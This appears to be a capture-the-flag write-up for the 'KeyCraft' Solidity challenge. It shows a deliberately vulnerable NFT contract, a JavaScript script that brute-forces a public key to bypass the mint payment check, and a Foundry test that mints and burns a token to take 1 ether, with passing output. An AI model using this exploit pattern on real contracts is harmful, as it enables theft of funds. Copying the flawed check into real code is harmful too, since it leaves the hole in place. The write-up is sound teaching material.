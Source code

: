 # KeyCraft

*Uncover the hidden hex values within addresses to access NFT minting or face the cost of 1 ether in this exciting CTF challenge!*

## Objective of CTF

You are provided with 0 ether. After the hack you should have 1 ether.

## Instructions:

1. Paste your address in place of <Your Address> in the setUp() function
2. Give your solution in //Solution marked space in testKeyCraft() function.

---

Contract Code:

```
// SPDX-License-Identifier: MIT

pragma solidity 0.8.19;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract KeyCraft is ERC721 {
    uint256 totalSupply;
    address owner;
    bool buyNFT;

    constructor(string memory _name, string memory _symbol) ERC721(_name, _symbol) {
        _mint(msg.sender, totalSupply++);
        owner = msg.sender;
    }

    modifier checkAddress(bytes memory b) {
        bool q;
        bool w;

        if (msg.sender == owner) {
            buyNFT = true;
        } else {
            uint256 a = uint160(uint256(keccak256(b)));
            q = (address(uint160(a)) == msg.sender);

            a = a >> 108;
            a = a << 240;
            a = a >> 240;

            w = (a == 13057);
        }

        buyNFT = (q && w) || buyNFT;
        _;
        buyNFT = false;
    }

    function mint(bytes memory b) public payable checkAddress(b) {
        require(msg.value >= 1 ether || buyNFT, "Not allowed to mint.");
        _mint(msg.sender, totalSupply++);
    }

    function burn(uint256 tok) public {
        address a = ownerOf(tok);
        require(msg.sender == a);
        _burn(tok);
        totalSupply--;
        payable(a).transfer(1 ether);
    }
}

```



## The Attack

To mint a token without spending 1 ether, you have to utilize the modifier **checkAddress(bytes memory b)**. Within the code, the expression **address(uint160(uint256(keccak256(b))))** is employed in Solidity to generate an Ethereum address from an ECDSA Public Key. The condition q is only satisfied when a valid public key is passed.

To proceed, you need to find an address and public key combination that produces the value **13057** after performing three specific bitwise operations. This can be accomplished by adjusting the derivation path used to generate the addresses and performing the following shifting operations:

1. Shift a right by 108 bits: **a = a >> 108**;
2. Shift a left by 240 bits: **a = a << 240**;
3. Shift a right by 240 bits: **a = a >> 240**;

To attain the desired result, modify the index of the derivation path used for generating addresses and verify the outcome by performing and comparing the above shifting operations using a JavaScript code snippet based on the mnemonic phrase.

### STEPS
1. Prepare js code to generate address and public key, which give you **13057** after the shifting operations
2. Pass the generated public key as a parameter to **mint()** method
3. call **burn()** method with token id, which will transfer 1 ETH to your address

## Proof of Concept

The JS script is as follows:

```
const { ethers } = require('ethers');

// Generate random mnemonic
const randomMnemonic = ethers.Wallet.createRandom().mnemonic;

// Derive HDNode from mnemonic
const hdNode = ethers.utils.HDNode.fromMnemonic(randomMnemonic.phrase);

// Generate addresses based on derivation index
const derivationPath = "m/44'/60'/0'/0"; 

for (let i = 0; i >= 0; i++) {
    const derivedNode = hdNode.derivePath(`${derivationPath}/${i}`);
    const wallet = new ethers.Wallet(derivedNode.privateKey);

    // There are multiple ways to generate the ETH address from ECDSA public key
    // We are using the same implimentation in the solidity code. 
    // Perform keccak256 hash on the public key
    const hash = ethers.utils.keccak256(wallet.publicKey);

    // Convert the hash to an Ethereum address
    const address = ethers.utils.getAddress("0x" + hash.slice(26));

    // Convert hash to uint256
    const aUint256 = ethers.BigNumber.from(hash);

    // Convert a to uint160 and perform right shift with 108
    let aUint160 = aUint256.mod(ethers.BigNumber.from(2).pow(160));
    aUint160 = aUint160.shr(108);

    // aUint160.shr(240) will not give the expected result like in the solidity code,
    // so we have to do the shifting operations on BigInt numbers
    
    // Convert aUint160 and 240 into a BigInt 
    const a = BigInt(aUint160);
    const shiftAmount = BigInt(240);

    // Perform the right shift operation using BigInt arithmetic
    let shiftedResult = a * (BigInt(2) ** shiftAmount);
    shiftedResult = shiftedResult % (BigInt(2) ** BigInt(256));
    shiftedResult = shiftedResult >> shiftAmount;

    console.log(`shiftedResult is ${shiftedResult.toString()}`);

    if (shiftedResult.toString() == '13057') {
        console.log({
            address,
            publicKey: wallet.publicKey,
            privateKey: wallet.privateKey
        });
        break;
    }
}
```
### Output

```
  {
    address: '0x504C3bd2d330170a1AE0a48C377007b906D4B998',
    publicKey: '0x0465e5ecb71749c4d7236dfa7ff7f1cbed66b03914ee49369f54386e95fa6823ad590e40ba17d8dd0205d80f5acb7e6cefb6199383b8ed47e7f07e14dcca96dafa',
    privateKey: '0x7cbae7f5e8bd98d152015097b41ddfc6bbd83de6607cad817923562dbab78244'
  }
```

The Foundry setup is as follows:

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/KeyCraft.sol";

contract KC is Test {
    KeyCraft k;
    address owner;
    address user;
    address attacker;

    function setUp() public {
        owner = makeAddr("owner");
        user = makeAddr("user");
        // Pass the address generated by the address generation script
        // address: '0x504C3bd2d330170a1AE0a48C377007b906D4B998'
        attacker = 0x504C3bd2d330170a1AE0a48C377007b906D4B998;

        vm.deal(user, 1 ether);

        vm.startPrank(owner);
        k = new KeyCraft("KeyCraft", "KC");
        vm.stopPrank();

        vm.startPrank(user);
        k.mint{value: 1 ether}(hex"dead");
        vm.stopPrank();
    }

    function testKeyCraft() public {
        vm.startPrank(attacker);

        //Solution
        // Pass the public key generated by the address generation script
        // publicKey: '0x0465e5ecb71749c4d7236dfa7ff7f1cbed66b03914ee49369f54386e95fa6823ad590e40ba17d8dd0205d80f5acb7e6cefb6199383b8ed47e7f07e14dcca96dafa'

        k.mint(
            hex"0465e5ecb71749c4d7236dfa7ff7f1cbed66b03914ee49369f54386e95fa6823ad590e40ba17d8dd0205d80f5acb7e6cefb6199383b8ed47e7f07e14dcca96dafa"
        );

        // Pass tok as 2, becasue user already minted tokenid 1
        k.burn(2);
        vm.stopPrank();
        assertEq(attacker.balance, 1 ether);
    }
}

```
### Output

```
Running 1 test for test/KeyCraft.t.sol:KC
[PASS] testKeyCraft() (gas: 81980)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.48ms
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


